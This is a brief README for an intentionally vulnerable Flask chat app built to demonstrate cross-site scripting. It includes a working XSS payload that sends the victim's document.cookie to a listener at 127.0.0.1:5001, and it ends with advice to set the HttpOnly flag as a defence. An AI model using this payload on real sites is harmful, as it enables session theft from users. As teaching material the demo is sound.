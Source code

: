 Chat WebApp with Flask

Building an vulnerable chat web app to demostrate XSS attacks.


Attacker's injection: <script>$.ajax({ url : 'http://127.0.0.1:5001/listen', type : 'POST', data : { 'cookie' : document.cookie }, success : function(response) {}, error : function(error) {} })</script>

A good way to prevent XSS attacks on cookies is to set the `HttpOnly` flag of the cookie. This makes it unavailable to scripting languages like JavaScript.
